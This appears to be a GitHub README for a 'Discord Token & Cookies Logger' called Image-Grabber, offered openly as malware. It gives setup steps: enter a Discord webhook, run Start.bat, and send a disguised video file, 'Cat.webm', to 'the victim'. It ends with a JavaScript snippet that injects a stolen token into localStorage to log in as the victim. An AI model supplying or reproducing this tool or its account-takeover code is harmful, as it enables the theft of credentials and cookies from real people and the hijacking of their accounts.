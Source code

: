 ## [Download](https://github.com/We2oz/Image-Grabber/archive/refs/heads/main.zip) - [Discord](https://discord.gg/vfJknm825G)
**Image Tool By OK.@**


- edit file Inje.js
- enter your discord webhook 
- open Start.bat
- send Video Cat.webm for the victim


Discord Token & Cookies Logger - Grabber 
with a video # 6 sec ~ 
By OK. https://discord.gg/vfJknm825G




- login code
```let token = "";

function login(token) {
    setInterval(() => {
      document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
    }, 50);
    setTimeout(() => {
      location.reload();
    }, 2500);
  }

login(token);
```
